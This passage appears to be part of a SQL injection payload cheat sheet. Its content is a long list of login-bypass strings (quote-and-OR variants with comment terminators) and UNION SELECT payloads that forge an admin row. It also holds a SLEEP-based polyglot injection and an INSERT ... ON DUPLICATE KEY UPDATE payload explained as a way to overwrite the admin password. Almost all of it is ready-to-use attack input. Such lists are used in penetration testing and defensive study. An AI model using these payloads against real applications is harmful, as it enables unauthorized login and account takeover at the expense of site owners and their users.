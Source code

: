 ```sql
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Polyglot injection (multicontext)

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## Routed injection

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

## Insert Statement - ON DUPLICATE KEY UPDATE

ON DUPLICATE KEY UPDATE keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

```sql
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

```